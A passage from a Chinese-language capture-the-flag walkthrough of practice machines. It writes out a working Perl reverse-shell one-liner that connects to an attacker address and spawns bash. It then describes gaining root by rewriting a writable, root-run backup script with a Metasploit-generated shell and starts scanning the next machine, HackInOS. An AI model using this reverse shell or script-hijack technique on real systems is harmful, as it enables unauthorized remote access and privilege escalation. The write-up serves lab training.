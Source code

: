 因为本靶机没有安装python，但是它安装了perl，

[![](https://p3.ssl.qhimg.com/t019cde8ed94789a37a.png)](https://p3.ssl.qhimg.com/t019cde8ed94789a37a.png)

所以本次使用perl命令为：

`perl -e 'use Socket;$i="172.16.24.81";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))`{`open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/bash -i");`}`;'`

[![](https://p1.ssl.qhimg.com/t01fb87ea48f1dc5695.png)](https://p1.ssl.qhimg.com/t01fb87ea48f1dc5695.png)

然后我们拿到一个正常美观的shell，并且拿到了第一个flag，

下面我们就开始提权吧，通过上图可以看到/home/eric/目录下有backup.zip、backup.sh 2个敏感文件，且backup.sh 程序为root权限，我们还有权限修改。。我们先看一下该程序是做什么工作的，跟谈恋爱一样的 至少要了解人家是做什么工作的漂亮不漂亮 对吧，后期在扒人家。。。 呸 是后期再慢慢相互接触了解对吧，如图：

[![](https://p5.ssl.qhimg.com/t01bbbadc7a7cd57815.png)](https://p5.ssl.qhimg.com/t01bbbadc7a7cd57815.png)

可以看到这里的代码很简单，就是压缩打包我们的网站目录。。。这样套路我们就不用怀疑了，直接修改该sh文件然后静静等待让它上来自己动就行了。。

如图：

[![](https://p3.ssl.qhimg.com/t01eafe9d573dc79a3e.png)](https://p3.ssl.qhimg.com/t01eafe9d573dc79a3e.png)

注：小弟我这里当时试了很多命令，均都是连上后没办法操作或者连上就断了，最后使用的命令是 msf 生产sh文件完成的

具体操作如下截图：

[![](https://p1.ssl.qhimg.com/t013614568e9b0e7ac6.png)](https://p1.ssl.qhimg.com/t013614568e9b0e7ac6.png)

最后我们就是静静地等待。。。。

来啊 快活啊，反正有….

[![](https://p5.ssl.qhimg.com/t017d6d9dd722482c4b.png)](https://p5.ssl.qhimg.com/t017d6d9dd722482c4b.png)

[![](https://p2.ssl.qhimg.com/t0120ec8a13d68238e1.png)](https://p2.ssl.qhimg.com/t0120ec8a13d68238e1.png)

成功拿到root-flag，该靶机还是比较简单的

本靶机完！

#### <a class="reference-link" name="HackInOS%E9%9D%B6%E6%9C%BA"></a>HackInOS靶机

靶机IP：172.16.24.71

这个靶机挺不错的，小伙伴们可以先不看文章教程，自己先搞一下试试。

老规矩nmap开路，

[![](https://p1.ssl.qhimg.com/t012b0e6f4e4abaf297.png)](https://p1.ssl.qhimg.com/t012b0e6f4e4abaf297.png)
